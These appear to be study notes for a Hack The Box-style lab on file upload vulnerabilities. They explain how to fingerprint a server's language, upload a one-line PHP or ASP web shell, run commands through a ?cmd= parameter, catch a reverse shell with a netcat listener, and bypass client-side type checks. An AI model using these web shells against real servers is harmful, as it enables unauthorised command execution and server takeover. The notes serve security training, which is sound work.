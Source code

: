# File Upload Attacks
- The worst possible kind of file upload vulnerability is an unauthenticated arbitrary file upload vulnerability.
- a file upload vulnerability is not only caused by writing insecure functions but is also often caused by the use of outdated libraries that may be vulnerable to these attacks
- If we click on a form to select a file, the file selector dialog does not specify any file type, as it says `All Files` for the file type, which may also suggest that no type of restrictions or limitations are specified for the web application on the FRONT END, there may be some on the back end
-  A web shell has to be written in the same programming language that runs the web server, as it runs platform-specific functions and commands to execute system commands on the back-end server, making web shells non-cross-platform scripts. So, the first step would be to identify what language runs the web application.
-  One easy method to determine what language runs the web application is to visit the `/index.ext` page, where we would swap out `ext` with various common web extensions, like `php`, `asp`, `aspx`, among others, to see whether any of them exist.
-  Once you have identified the web framework running the web application and its programming language, test whether we can upload a file with the same extension.
-  test.php --> `<?php echo "Hello HTB";?>`
-  If we can then download the test.php and it prints the string, we have executed PHP code on the back-end server
-  In PHP, use `system()` to execute commands e.g this is a simple webshell in pho - `<?php system($_REQUEST['cmd']); ?>`
  - Save as a .php and upload to get a web shell in the URL. We can execute system commands with the ?cmd= GET parameter (e.g. ?cmd=id), as follows: `http://SERVER_IP:PORT/uploads/shell.php?cmd=id`
- For .NET Web apps we can use the eval() function: `<% eval request('cmd') %> `
-  [SecLists Webshells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)
-  We can download any of these web shells for the language of our web application, then upload it through the vulnerable upload feature, and visit the uploaded file to interact with the web shell.
-  If we are using this custom web shell in a browser, it may be best to use source-view by clicking [CTRL+U], as the source-view shows the command output as it would be shown in the terminal, without any HTML rendering that may affect how the output is formatted.
- [phpbash](https://github.com/Arrexel/phpbash)
- It must be noted that in certain cases, web shells may not work. This may be due to the web server preventing the use of some functions utilized by the web shell (e.g. system()), or due to a Web Application Firewall, among other reasons. 
-  [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell)
NetCat listener: `nc -lvnp OUR_PORT` (where OUR_PORT is any free port)
- While reverse shells are always preferred over web shells, as they provide the most interactive method for controlling the compromised server, they may not always work, and we may have to rely on web shells instead.
- Webshell is CLI in browser, where reverse shell is in terminal.

Upload Exploitation Commands - Get Webshell
- Make PHP file `<?php system($_REQUEST['cmd']); ?>`
- Then add `?cmd=cat /flag.txt` to the end of the URL to get flag

Any code that runs on the client-side is under our control. While the web server is responsible for sending the front-end code, the rendering and execution of the front-end code happen within our browser. If the web application does not apply any of these validations on the back-end, we should be able to upload any file type.

To bypass these protections, we can either modify the upload request to the back-end server, or we can manipulate the front-end code to disable these type validations.

- We may also modify the Content-Type of the uploaded file, though this should not play an important role at this stage, so we'll keep it unmodified.

